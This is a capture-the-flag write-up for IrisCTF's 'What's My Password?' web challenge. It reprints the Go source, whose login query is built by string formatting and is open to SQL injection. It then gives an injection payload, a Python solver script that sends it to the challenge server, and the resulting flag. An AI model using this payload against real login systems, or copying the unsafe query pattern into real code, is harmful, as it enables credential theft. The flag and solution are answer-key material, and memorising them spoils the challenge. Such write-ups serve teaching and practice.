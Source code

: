 # What's My Password? [422 Solves]

## Description

![chal.png](img/chal.png)

> [baby] Oh no! Skat forgot their password (again)!
>
> Can you help them find it?
>
> <https://whats-my-password-web.chal.irisc.tf> `whats-my-password.tar.gz`
>
> By: User

## Short Solution

SQL Injection

## Source Code

```console
$ tar ztf whats-my-password.tar.gz
whats-my-password/
whats-my-password/Dockerfile
whats-my-password/entrypoint.sh
whats-my-password/setup.sql
whats-my-password/src/
whats-my-password/src/go.mod
whats-my-password/src/go.sum
whats-my-password/src/main.go
whats-my-password/src/web/
whats-my-password/src/web/index.css
whats-my-password/src/web/index.html
whats-my-password/src/web/index.js
```

<details><summary>main.go</summary>

```go
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/signal"
	"regexp"
	"syscall"

	_ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func startWeb() {
	fmt.Println("Starting very secure login panel (promise)")

	fs := http.FileServer(http.Dir("/home/user/web"))
	Mux.Handle("/", fs)

	Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
		if r.Method != http.MethodPost {
			w.WriteHeader(http.StatusMethodNotAllowed)
			return
		}

		var input Account

		decoder := json.NewDecoder(r.Body)
		decoder.Decode(&input)

		if input.Username == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Username"))
			return
		}
		if input.Password == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Password"))
			return
		}

		matched, err := regexp.MatchString(UsernameRegex, input.Username)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			return
		}

		if matched {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Username can only contain lowercase letters and numbers."))
			return
		}

		qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

		query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		if !query.Next() {
			w.WriteHeader(http.StatusUnauthorized)
			w.Write([]byte("Invalid username / password combination!"))
			return
		}

		var result Account
		err = query.Scan(&result.Username, &result.Password)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		encoded, err := json.Marshal(result)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		w.Write(encoded)
	})

	http.ListenAndServe(":1337", Mux)
}

func main() {
	fmt.Println("Establishing connection to MySql")
	db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
	if err != nil {
		fmt.Println(err)
		return
	}
	DB = db

	defer DB.Close()

	startWeb()

	sigChan := make(chan os.Signal, 1)
	signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
	<-sigChan
}
```

</details>

<details><summary>setup.sql</summary>

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

</details>

## Solution

The flag is in the password of the skat user.

The below code has SQL injection Vulnerability:

```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

To log in as the skat user, send the payload for SQL injection by executing the following SQL query:

```sql
SELECT * FROM users WHERE username = "skat" AND password = "" OR username = "skat" AND 1="1"
```

solver.py

```python
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

# BASE_URL = "http://localhost:1337"
BASE_URL = "https://whats-my-password-web.chal.irisc.tf"


def main():
    r = s.post(
        f"{BASE_URL}/api/login",
        json={"username": "skat", "password": '" OR username="skat" AND 1="1'},
    )
    print(r.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```

## Flag

irisctf{my_p422W0RD_1S_SQl1}
